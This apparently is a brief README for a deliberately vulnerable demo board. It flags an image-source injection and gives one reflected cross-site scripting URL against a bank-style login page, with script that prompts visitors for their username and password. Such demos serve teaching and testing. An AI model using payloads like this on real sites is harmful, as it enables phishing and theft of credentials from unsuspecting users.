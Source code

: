 # XSS-Vunerable-Board
img src vunerable

http://freebankonline.com/banklogin.asp?err=<script>username=prompt('Please enter your username',' '); password=prompt('Please enter your password',' '); alert("username="+username+" and password="+password);</script>

